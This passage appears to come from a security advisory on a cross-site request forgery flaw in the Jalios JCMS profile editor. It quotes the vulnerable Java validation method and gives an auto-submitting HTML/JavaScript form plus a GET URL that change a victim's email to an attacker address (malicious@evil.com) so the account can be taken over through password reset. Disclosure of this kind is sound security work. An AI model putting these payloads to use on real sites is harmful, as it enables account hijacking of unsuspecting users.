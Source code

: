 Here is the verification function executed before modifying user information (*jcms.handler.EditMemberHandler.class*):  
```java
protected boolean validateUpdate() throws IOException { 
        if (!this.opUpdate) { 
            return false; 
        } 
        if (this.memberAlertSettingsHandler != null) { 
            this.memberAlertSettingsHandler.setOpUpdate(String.valueOf(Boolean.TRUE)); 
        } 
        if (!validateCommonUpdate()) { 
            return false; 
        } 
        this.workingMember = (Member) this.member.getUpdateInstance(); 
        setFields(this.workingMember); 
        if (!processStatus(this.workingMember.checkUpdate(this.loggedMember, getControllerContext()))) { 
            return false; 
        } 
        return true; 
    }
```

The following request modifies the victim's email, so an attacker can specify their email and use the password reset function to take control of the account.  

```html
<html> 
  <body> 
    <script> 
      f = document.createElement("form") 
      f.method = 'POST' 
      f.enctype="multipart/form-data" 
      f.action="http://172.22.12.128:8001/jalios/front/editProfile.jsp" 
      const fields = [ 
        { name: "email", value: "malicious@evil.com" }, 
        { name: "opUpdateProfile", value: "Enregistrer" } 
      ]; 
      fields.forEach(field => { 
        const input = document.createElement("input"); 
        input.type = "hidden"; 
        input.name = field.name; 
        input.value = field.value; 
        form.appendChild(input); 
      }); 
      document.body.appendChild(f); 
      f.submit(); 
    </script> 
  </body> 
</html>
```

Additionally, like most Java-based CMS, it is possible to pass parameters in the URL to form the following URL: 
- `/front/editProfile.jsp?email=malicious@evil.com&emailVisible=true&opUpdateProfile=Enregistrer`
